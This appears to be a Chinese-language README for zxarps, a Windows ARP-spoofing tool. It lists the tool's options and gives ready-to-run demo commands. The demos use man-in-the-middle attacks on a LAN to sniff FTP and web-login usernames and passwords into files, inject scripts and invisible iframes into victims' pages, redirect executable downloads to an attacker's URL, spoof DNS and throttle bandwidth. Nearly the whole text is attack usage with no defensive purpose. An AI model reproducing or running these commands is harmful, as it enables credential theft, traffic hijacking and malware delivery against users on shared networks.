

#### 部署
```txt
测试环境：windows xp

需要先安装底层的一个依赖软件：wincap
然后再安装：zxarps

安装完毕后，使用win+r打开cmd并在zxarps所在目录执行：
zxarps.exe -idx 0 -ip <目标地址> -p <端口"80">  -insert "<script>alert('chenqihao, sgoyi !')</script>"
```
#### 如下提示表示成功

#### args
```txt
options:
    -idx [index]              网卡索引号
    -ip [ip]                  欺骗的IP,用'-'指定范围,','隔开
    -sethost [ip]             默认是网关,可以指定别的IP
    -port [port]              关注的端口,用'-'指定范围,','隔开,没指定默认关注所有端口
    -reset                    恢复目标机的ARP表
    -hostname                 探测主机时获取主机名信息
    -logfilter [string]       设置保存数据的条件，必须+-_做前缀,后跟关键字,
                              ','隔开关键字,多个条件'|'隔开
                              所有带+前缀的关键字都出现的包则写入文件
                              带-前缀的关键字出现的包不写入文件
                              带_前缀的关键字一个符合则写入文件(如有+-条件也要符合)
    -save_a [filename]        将捕捉到的数据写入文件 ACSII模式
    -save_h [filename]        HEX模式
        
    -hacksite [ip]            指定要插入代码的站点域名或IP,
                              多个可用','隔开,没指定则影响所有站点
    -insert [html code]       指定要插入html代码
        
    -postfix [string]         关注的后缀名，只关注HTTP/1.1 302
    -hackURL [url]            发现关注的后缀名后修改URL到新的URL
    -filename [name]          新URL上有效的资源文件名
        
    -hackdns [string]         DNS欺骗，只修改UDP的报文,多个可用','隔开
                              格式: 域名|IP，www.aa.com|222.22.2.2,www.bb.com|1.1.1.1
        
    -Interval [ms]            定时欺骗的时间间隔，默认是3秒
    -spoofmode [1|2|3]        将数据骗发到本机,欺骗对象:1为网关,2为目标机,3为两者
    -speed [kb]               限制指定的IP或IP段的网络总带宽,单位:KB（zxarps.exe -idx 2 -ip 192.168.10.177 -speed 1）
```
#### Demo
```txt
嗅探指定的IP段中端口80的数据，并以HEX模式写入文件
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.50 -port 80 -save_h sniff.log

FTP嗅探,在21或2121端口中出现USER或PASS的数据包记录到文件
zxarps.exe -idx 0 -ip 192.168.0.2 -port 21,2121 -spoofmode 2 -logfilter "_USER ,_PASS" -save_a sniff.log

HTTP web邮箱登陆或一些论坛登陆的嗅探,根据情况自行改关键字
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.50 -port 80 -logfilter "+POST ,+user,+pass" -save_a sniff.log

用|添加嗅探条件,这样FTP和HTTP的一些敏感关键字可以一起嗅探
zxarps.exe -idx 0 -ip 192.168.0.2 -port 80,21 -logfilter "+POST ,+user,+pass|_USER ,_PASS" -save_a sniff.log

如果嗅探到目标下载文件后缀是exe等则更改Location:为http://xx.net/test.exe
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.12,192.168.0.20-192.168.0.30 -spoofmode 3 
-postfix ".exe,.rar,.zip" -hackurl http://xx.net/ -filename test.exe

指定的IP段中的用户访问到-hacksite中的网址则只显示just for fun
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.99 -port 80 -hacksite 222.2.2.2,www.a.com,www.b.com 
-insert "just for fun<noframes>"

指定的IP段中的用户访问的所有网站都插入一个框架代码
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.99 -port 80 -insert "<iframe src='xx' width=0 height=0>"

指定的两个IP的总带宽限制到20KB
zxarps.exe -idx 0 -ip 192.168.0.55,192.168.0.66 -speed 20

DNS欺骗
zxarps.exe -idx 0 -ip 192.168.0.55,192.168.0.66 -hackdns "www.aa.com|222.22.2.2,www.bb.com|1.1.1.1"
```
